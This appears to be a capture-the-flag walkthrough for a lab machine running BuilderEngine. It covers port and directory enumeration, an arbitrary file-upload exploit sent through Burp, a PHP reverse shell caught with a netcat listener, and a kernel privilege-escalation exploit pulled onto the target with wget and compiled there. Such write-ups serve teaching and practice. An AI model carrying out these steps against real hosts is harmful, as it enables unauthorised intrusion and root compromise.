 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

![alt text](./img/muts00.PNG?raw=true)  

## Recon-Enumeration  
nmap -A -p- 10.2.0.11  
![alt text](./img/muts01.PNG?raw=true)  
  
![alt text](./img/muts02.PNG?raw=true)  
  
![alt text](./img/muts03.PNG?raw=true)  

enum4linux 10.2.0.11  
![alt text](./img/muts08.PNG?raw=true)  
  
gobuster dir -u http://10.2.0.11 -w ~/wordlists/big.txt -e -x php,html,txt,xml,sql,aspx -t 100  
![alt text](./img/muts04.PNG?raw=true)  
  
![alt text](./img/muts05.PNG?raw=true)  

gobuster dir -u http://10.2.0.11:8080 -w ~/wordlists/big.txt -e -x php,html,txt,xml,sql,aspx -t 100  
![alt text](./img/muts06.PNG?raw=true)  
  
![alt text](./img/muts07.PNG?raw=true)  

## Exploit

On the main page it says BuilderEngine, so let’s see if exists any exploit to it  
searchsploit builderengine  
![alt text](./img/muts11.PNG?raw=true)  

searchsploit -x php/webapps/40390.php  
![alt text](./img/muts12.PNG?raw=true)  

Ok, so we need to use a request, to make the things easier let’s use Burp  
Open BurpSuite  
In your browser accesss http://10.2.0.11/themes/dashboard/assets/plugins/jquery-file-upload/server/php/  
Look the request on Burp and send it to Repeater  
![alt text](./img/muts13.PNG?raw=true)  

Put the exploit code in the request and send it  
![alt text](./img/muts14.PNG?raw=true)  

Now access http://10.2.0.11/files, will appear a file with a strange name  
![alt text](./img/muts15.PNG?raw=true)  

Click on it and will appear an upload page  
![alt text](./img/muts16.PNG?raw=true)  

Here you can upload a php reverse shell, you can use the file in /usr/share/webshells/php/php-reverse-shell.php, just change the $ip and $port to yours.  
After select it click on SEND and return to http://10.2.0.11/files  
![alt text](./img/muts17.PNG?raw=true)  

Start an netcat listener  
nc -nvlp 1234  
Now access the uploaded page  
![alt text](./img/muts18.PNG?raw=true)  
HABEMUS SHELL \o/  

## Privesc

Run the commands above to get a better shell:  
- python -c 'import pty; pty.spawn("/bin/bash")'  
- export TERM=xterm  

cat /etc/passwd  
![alt text](./img/muts19.PNG?raw=true)  

cat /etc/issue  
cat /etc/*-release  
uname -a  
uname -r  
arch  
![alt text](./img/muts20.PNG?raw=true)  

find / -perm -u=s 2>/dev/null  
![alt text](./img/muts21.PNG?raw=true)  

During enumeration we found the user.txt flag on /var folder  
![alt text](./img/muts22.PNG?raw=true)  

Since we have ubuntu versions, let’s try to find an privilege escalation exploit  
searchsploit ubuntu 14 priv  
![alt text](./img/muts23.PNG?raw=true)  

Here we have a lot of exploit, however many are not usefull for this kernel version.  
After a fell tries the one that worked was…  
![alt text](./img/muts24.PNG?raw=true)  

So let’s read it  
searchsploit -x linux/local/36746.c   
![alt text](./img/muts25.PNG?raw=true)    
  
Those are the instructions to compile the code  

Copy it to your computer  
- searchsploit -m linux/local/36746.c  

And send the file to the target machine. I used the above command to start a python server: 
- sudo python3 -m http.server 80  

On the target machine use this commands:  
- cd /tmp  
- wget http://10.2.0.4/36746.c  
- gcc -static 36746.c  
- ./a.out  
- id  

![alt text](./img/muts26.PNG?raw=true)  

PWNED!  

Now just grab the flag  
![alt text](./img/muts27.PNG?raw=true)  
